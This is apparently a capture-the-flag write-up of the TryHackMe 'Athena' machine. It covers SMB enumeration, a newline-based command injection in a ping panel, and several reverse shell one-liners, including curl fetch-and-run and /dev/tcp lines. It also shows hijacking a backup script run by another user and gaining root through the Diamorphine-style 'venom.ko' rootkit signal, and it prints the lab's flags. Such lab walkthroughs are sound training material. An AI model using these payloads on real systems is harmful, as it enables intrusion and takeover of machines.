## TL;DR

We start with SMB enumeration and find hidden end point at`/myrouterpanel`. Then we exploit OS Command Injection and get reverse shell as `www-data`. Next, we insert our code into `/usr/share/backup/backup.sh` and get code executed as `athena`, which gives us shell as `athena`.

Lastly, we use the `venom.ko` rootkit to get root access, by sending signal `57` to any process available, after reverse engineering the source code. 

At the end, we find the mysterious `fsociety00.dat`, Mr Robot is everywhere!

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



We can detect port `22` with ssh, port `80` with apache http server and port `139` and `445` with Samba, SMB server.
```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
|   256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
|_  256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Athena - Gods of olympus
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-11-16T15:08:35
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
|_nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

### find hidden endpoint at /myrouterpanel

First we go to root page, there is nothing interesting there:


next, I used `ffuf` and `gobuster` to find hidden endpoints and subdomains, but nothing wasn't found.

We can start enumerate SMB shares, I executed `enum4linux` to enumerate staff:
```bash
enum4linux $target
```

We found several interesting findings, first, share enumeration, we found 2 shares publicly opened.



Next, users:



Now, we can use `smbclient` to fetch the data from the publicly shares.
Here we list the shares annomosuly
```bash
┌──(agonen㉿kali)-[~/thm/Athena]
└─$ smbclient -NL \\\\$target\\         
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        public          Disk      
        IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 10.10.196.128 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

And now access the share, we can get the file `msg_for_administrator.txt` out of the share.
```bash
┌──(agonen㉿kali)-[~/thm/Athena]
└─$ smbclient -N \\\\$target\\public    
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 17 03:54:43 2023
  ..                                  D        0  Mon Apr 17 03:54:05 2023
  msg_for_administrator.txt           N      253  Sun Apr 16 21:59:44 2023

                19947120 blocks of size 1024. 9682912 blocks available
smb: \> get msg_for_administrator.txt 
getting file \msg_for_administrator.txt of size 253 as msg_for_administrator.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> 
```



The file says there is a new Ping system being developed, in the location `/myrouterpanel`.
```bash
┌──(agonen㉿kali)-[~/thm/Athena]
└─$ cat msg_for_administrator.txt 

Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```

### Exploit OS Command Injection to get shell

We can go to `http://10.10.196.128/myrouterpanel/` and find the new system.


When we give ip, for example, our ip `10.9.2.147`, we can see ping has been sent, and we got the output:



Now we need to achieve `OS Command Injection`, however, when I gave `;` `|` or `&`, I got "Attempt hacking".



Then, I tried to give newline, and another command, and it worked!
```bash
ip=10.9.2.147%0aid
```



We want to upload reverse shell and then execute, this is what we are gonna execute:
```bash
curl http://10.9.2.147:8081/revshell.sh -o /tmp/revshell.sh
chmod +x /tmp/revshell.sh
/tmp/revshell.sh
```

And after url encoding, full payload:
```bash
ip=10.9.2.147%0acurl+http://10.9.2.147:8081/revshell.sh+-o+/tmp/revshell.sh%0achmod+%2bx+/tmp/revshell.sh%0a/tmp/revshell.sh
```

On our local machine we'll create the reverse shell, with the payload from `penelope`:
```bash
┌──(agonen㉿kali)-[~/thm/Athena]
└─$ echo -e '#!/bin/bash\nprintf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash' > revshell.sh
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/Athena]
└─$ python3 -m http.server 8081
```



And now just send this, and we get the reverse shell.



### Put code inside /usr/share/backup/backup.sh to get shell as athena

I executed linpeas using `run_peass` in penelope, and found this interesting bash script



We can see the reverse shell we put, and also the file `/usr/share/backup/backup.sh`, let's inspect him.

```bash
www-data@routerpanel:/$ ls -la /usr/share/backup/backup.sh
-rwxr-xr-x 1 www-data athena 258 May 28  2023 /usr/share/backup/backup.sh
www-data@routerpanel:/$ cat /usr/share/backup/backup.sh
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```

> --------------------------------------
> ----------- **WRONG SKIP** -----------
> --------------------------------------

As we can see, it hash executable and read permissions by all users, and it executes this line `cp -r /home/athena/notes/* "$backup_dir_zip"`... big mistake, we can create our own malicious `cp` file and play with the `$PATH` variable.

We'll put the payload from `penelope` for reverse shell.

```bash
cd /tmp
echo -e '#!/bin/bash\nprintf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash' > cp
chmod +x cp
export PATH=/tmp:$PATH
/usr/share/backup/backup.sh
```

However, of course that's not working, and we get shell as `www-data`, because we are the ones that executed `/usr/share/backup/backup.sh`.



Let's keep exploring, to check whether `athena` executes `/usr/share/backup/backup.sh` sometimes.

We execute `pspy`, we can see that it's being executed, by user with UID 1001, which is `athena`.



Then, I used `systemctl` to detect exactly the name of the service:

```bash
www-data@routerpanel:/tmp$ systemctl | grep athena
  athena_backup.service                                                   loaded activating auto-restart Backup Athena Notes                                             
```

Now we can read the service `athena_backup.service` itself:

```bash
www-data@routerpanel:/tmp$ systemctl cat athena_backup.service
# /etc/systemd/system/athena_backup.service
[Unit]
Description=Backup Athena Notes

[Service]
User=athena
Group=athena
ExecStart=/bin/bash /usr/share/backup/backup.sh
Restart=always
RestartSec=1min

[Install]
WantedBy=multi-user.target
```

Why this is not working?

> --------------------------------------
> ----------- **END OF WRONG** -----------
> --------------------------------------

WAIT, we are the owner of `/usr/share/backup/backup.sh` !!!! Not `athena`!
```bash
www-data@routerpanel:/tmp$ ls -la /usr/share/backup/backup.sh
-rwxr-xr-x 1 www-data athena 258 May 28  2023 /usr/share/backup/backup.sh
```

So dumb. Let's just add to `/usr/share/backup/backup.sh` our reverse shell, I took it from [https://www.revshells.com/](https://www.revshells.com/):
```bash
sh -i >& /dev/tcp/10.9.2.147/4444 0>&1
```

And let's override it with the content:
```bash
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.9.2.147/4444 0>&1' > /usr/share/backup/backup.sh
```

And we got reverse shell, after 1 minute.



We can grab the user flag:
```bash
athena@routerpanel:~$ cat user.txt 
857c4a4fbac638afb6c7ee45eb3e1a28
``` 

### Privilege Escalation to Root via LKM rootkit

We can execute `sudo -l` to check our sudo permissions.

```bash
athena@routerpanel:~$ sudo -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```

As we can see, we load some kernel module with using the `sudo` command:
```bash
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
```

We can investigate the kernel module using `modinfo`:
```bash
athena@routerpanel:~$ modinfo /mnt/.../secret/venom.ko
filename: /mnt/.../secret/venom.ko
description: LKM rootkit 
author: m0nad 
license: Dual BSD/GPL 
srcversion: 93A81462832D4CF52F916D7 
depends: retpoline: 
Y name: venom 
vermagic: 5.15.0-69-generic SMP mod_unload modversions
```
When I googled, for `m0nad LKM rootkit`, I found [https://github.com/m0nad/Diamorphine](https://github.com/m0nad/Diamorphine)..

It says this features:



So, we can just send signal 64 to any process and should get root.

I tried to execute, there no need to be process with this pid:
```bash
kill -64 6666 
```

However, we didn't got shell, so I downloaded the binary, and analyzed it with [https://dogbolt.org/?id=c7f089cf-fc3e-47b3-913b-34d22a162dc3](https://dogbolt.org/?id=c7f089cf-fc3e-47b3-913b-34d22a162dc3#BinaryNinja=270).



We can see that in order to get `give_root()`, we need that rax will be `0x39`, or in decimal, `57`.

I guess rax is simply the signal, so I tried to do the same as before, but this time with `57`:
```bash
kill -57 6666
```

And we got root access!



```bash
athena@routerpanel:/$ cat /root/root.txt 
aecd4a3497cd2ec4bc71a2315030bd48
```

Notice, when doing `ls`, we can find `fsociety00.dat`, Mr Robot!

